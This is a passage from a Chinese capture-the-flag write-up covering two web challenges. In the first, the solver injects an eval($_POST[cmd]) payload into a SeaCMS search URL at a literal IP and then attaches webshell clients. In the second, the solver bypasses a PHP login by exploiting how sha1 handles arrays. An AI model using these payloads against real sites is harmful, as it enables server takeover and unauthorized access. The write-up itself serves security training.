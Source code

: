 ![图 20](19.png)

## 14. 作战计划

网站唯一的注入点位于搜索框，查阅有关 seacms 漏洞的资料来构造 payload：

[http://47.103.43.235:84/search.php?searchtype=5&tid=&area=eval($\_POST[cmd])](#)

并连接菜刀 / 蚁剑，拿到网站 shell 后可以在根目录发现 flag.txt。

## 15. 池步洲

在源代码中发现：

```html
<!-- index.phps -->
```

访问该文件，得到：

```php
<?php
error_reporting(0);
$flag = '********';
if (isset($_POST['name']) and isset($_POST['password'])){
  if ($_POST['name'] == $_POST['password'])
    print 'name and password must be different';
  else if (sha1($_POST['name']) == sha1($_POST['password']))
    die($flag);
  else print 'invalid password';
}
?>
```

可以看到这里要求：name 和 password 不同，且 sha1 值相同。由于 php 中的 sha1 漏洞会使任意两个数组的 sha1 值相同，因此构造 payload：

![图 21](20.png)
